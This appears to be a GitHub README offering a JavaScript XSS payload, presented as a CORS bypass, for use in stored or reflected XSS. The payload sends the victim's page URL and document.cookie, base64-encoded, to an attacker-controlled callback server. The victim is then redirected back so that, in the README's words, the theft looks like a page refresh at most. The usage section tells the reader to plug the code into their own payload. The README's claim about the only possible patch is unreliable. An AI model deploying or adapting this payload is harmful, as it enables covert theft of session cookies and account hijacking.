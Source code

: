 ## Bypass Cross-Origin Resource Sharing restrictions

This demonstrates how the location setter of browsers are vulnerable to cross origin resource sharing.

The only patch for this would be to stop allowing URL parameters for all GET requests.

This repo includes an example XSS payload and callback that, once executed, will change a browser's location to your callback server, which returns a **301 Moved Permanently** response sending the victim back to its referrer.

This example also includes a token to facilitate stored and reflected XSS; a token is added to the URL's anchor preventing the XSS payload from reactivating. It would of course be better practice if you implemented your own payload that removes the stored/reflected XSS entirely.

**When the attack is executed successfully, the victim experienced what seemed like a page refresh at most.**

## Usage

Use the following code in your XSS payload. You must change the new location's address to that of your callback server, and change the token at the very least.

You can shorten this code by removing the token if you are not using it in stored or reflected XSS.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) globalThis.location = "https://mycallbackserver.net/callback.php" + 
  "?referer=" + encodeURIComponent(btoa(globalThis.location.href)) + 
  "&data=" + encodeURIComponent(btoa(document.cookie)) + 
  "&token=" + encodeURIComponent(btoa(token));
```

If the victim did not send a `referer` URL parameter, the attacker's server looks for a `Referer` header value. If neither of those are provided, the victim will be redirected to a panic address of your choice.
